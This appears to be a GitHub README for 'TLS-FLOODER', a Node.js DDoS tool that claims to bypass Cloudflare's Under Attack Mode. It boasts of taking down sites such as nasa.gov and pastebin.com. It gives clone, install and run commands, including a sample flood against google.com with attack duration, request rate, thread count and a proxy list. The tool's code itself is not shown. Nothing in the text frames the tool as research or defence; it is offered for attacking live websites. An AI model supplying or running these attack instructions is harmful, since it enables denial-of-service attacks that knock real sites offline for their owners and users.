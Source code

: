 `This script can take down sites that use cloudflare uam, and can also take down nasa.gov and pastebin.com sites. / tls-bypass.js was updated adding uam bypass along with flooder`

#
## First install the required modules

```bash
node setup.js
```
`Wait until the installation is complete`

## Next 

# Method Flooder x Bypass V3 High Request

# Update Flooder x bypass

- High Requests HTTP/2.0
- Bypass UAM HTTP/2.0
- Support %RAND%
- Support HTTP/1.1
- Bypass mode /2.0
- Smart mode /2.0

## How to use (git clone)

1. Download or git clone this repository:

    ```bash
    git clone https://github.com/DDoS-Leaks/TLS-FLOODER/
    ```

2. Navigate to the cloned repository:

    ```bash
    cd TLS-FLOODER
    ```

3. Run the `tls-bypass.js` script:

    ```bash
    node tls-bypass.js
    ```
    
## Run the script

```bash
node tls-bypass.js url time port rps thread proxy.txt bypass/flooder 
```

```bash
node tls-bypass.js https://google.com 300 443/80 120 10 http.txt flooder
```
